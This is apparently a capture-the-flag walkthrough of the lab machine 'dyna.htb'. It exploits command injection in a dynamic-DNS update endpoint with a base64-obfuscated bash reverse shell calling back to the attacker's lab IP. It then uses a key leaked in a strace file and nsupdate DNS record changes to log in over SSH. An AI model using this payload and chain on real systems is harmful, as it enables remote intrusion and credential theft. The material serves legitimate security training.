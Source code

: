 # user
starting off with the example code from noip.com

````bash
GET /nic/update?hostname=mytest.example.com&myip=192.0.2.25 HTTP/1.1
Host: dynupdate.no-ip.com
Authorization: Basic base64-encoded-auth-string
User-Agent: Company DeviceName-Model/FirmwareVersionNumber maintainer-contact@example.com
````

the code is modified to meet the current box
![no-ip.htb referece](DYNSTR.HTB-19.png#center)
<div class="myprediv">
	
GET /nic/update?hostname=<span class="myYellow">qdada.no-ip</span>.htb&myip=<span class="myYellow">10.10.10.244</span> HTTP/1.1
Host: <span class="myYellow">dyna.htb</span>
Authorization: Basic <span class="myYellow">ZHluYWRuczpzbmRhbnlkCg</span>
User-Agent: Company DeviceName-Model/FirmwareVersionNumber maintainer-contact@example.com
	
</div>

<HR>

## rce

This update application is vulnerable to command injection.
- make a bash reverse shell one-liner into base64
- enclose in back-ticks and insert immediatley after the hostname parameter

![base64 reverse shell](DYNSTR.HTB-20.png#center)

````bash
GET /nic/update?hostname=qdada.no-ip.htb&myip=10.10.10.244 HTTP/1.1
Host: dyna.htb
Authorization: Basic ZHluYWRuczpzbmRhbnlk
User-Agent: Company DeviceName-Model/FirmwareVersionNumber maintainer-contact@example.com


echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNy85MDAxIDA+JjEK" | base64 -d | bash
#urlencode to :
echo%20%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xNy85MDAxIDA%2BJjEK%22%20%7C%20base64%20-d%20%7C%20bash

````

URL encode and inject into request.

![code injection](DYNSTR.HTB-21.png#center)

header now looks like this

````bash
GET /nic/update?hostname=%60echo%20%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xNy85MDAxIDA%2BJjEK%22%20%7C%20base64%20-d%20%7C%20bash%60qdada.no-ip.htb&myip=10.10.10.244 HTTP/1.1
Host: dyna.htb
Authorization: Basic ZHluYWRuczpzbmRhbnlk
User-Agent: Company DeviceName-Model/FirmwareVersionNumber maintainer-contact@example.com
````
reverse shell

![reverse shell](DYNSTR.HTB-22.gif#center)

on /home/bindmgr <span class="myYellow" style="font-wight:bold;">support-case-C62796521</span> is accessible

![accessible folder](DYNSTR.HTB-23.png#center)

in that folder, <span class="myYellow" style="font-wight:bold;">strace-C62796521.txt</span> contains a key

![](DYNSTR.HTB-24.png#center)	
![](DYNSTR.HTB-26.png#center)
	
the zone needs to be updated in order to logon by ssh.

<div class="myprediv">
nsupdate -k /etc/bind/<span class="myYellow" style="font-wight:bold;">infra</span>.key
	[ENTER]
update add <span class="myYellow" style="font-wight:bold;">test.infra</span>.dyna.htb 86400 A 10.10.14.17
	[ENTER]
update add 17.14.10.10.in.addr.apra 86400 PTR <span class="myYellow" style="font-wight:bold;">test.intra</span>.dyna.htb
	[ENTER]
	[ENTER]
&nbsp;
</div>

![](DYNSTR.HTB-27.gif)
After this part login with the key
	
````bash
ssh -i key bindmgr@10.10.10.244
````
![](DYNSTR.HTB-28.png)
